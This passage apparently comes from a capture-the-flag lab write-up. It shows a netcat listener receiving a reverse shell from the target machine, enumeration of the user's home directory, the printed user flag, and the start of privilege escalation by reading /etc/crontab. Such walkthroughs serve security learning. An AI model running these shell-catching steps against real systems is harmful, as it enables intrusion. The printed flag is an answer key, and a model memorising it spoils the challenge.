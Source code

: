 ```tsx
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.248.84] 43744
bash: cannot set terminal process group (1483): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$ id 
id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

The user’s flag is located in the current directory:

```tsx
namelessone@anonymous:~$ ls -la
ls -la
total 60
drwxr-xr-x 6 namelessone namelessone 4096 May 14  2020 .
drwxr-xr-x 3 root        root        4096 May 11  2020 ..
lrwxrwxrwx 1 root        root           9 May 11  2020 .bash_history -> /dev/null
-rw-r--r-- 1 namelessone namelessone  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 namelessone namelessone 3771 Apr  4  2018 .bashrc
drwx------ 2 namelessone namelessone 4096 May 11  2020 .cache
drwx------ 3 namelessone namelessone 4096 May 11  2020 .gnupg
-rw------- 1 namelessone namelessone   36 May 12  2020 .lesshst
drwxrwxr-x 3 namelessone namelessone 4096 May 12  2020 .local
drwxr-xr-x 2 namelessone namelessone 4096 May 17  2020 pics
-rw-r--r-- 1 namelessone namelessone  807 Apr  4  2018 .profile
-rw-rw-r-- 1 namelessone namelessone   66 May 12  2020 .selected_editor
-rw-r--r-- 1 namelessone namelessone    0 May 12  2020 .sudo_as_admin_successful
-rw-r--r-- 1 namelessone namelessone   33 May 11  2020 user.txt
-rw------- 1 namelessone namelessone 7994 May 12  2020 .viminfo
-rw-rw-r-- 1 namelessone namelessone  215 May 13  2020 .wget-hsts
namelessone@anonymous:~$ cat user.txt
cat user.txt
90d6f992585815ff991e68748c414740
```

# Privilege Escalation → root

After checking the ****************cron job**************** but found nothing:

```tsx
namelessone@anonymous:~$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```
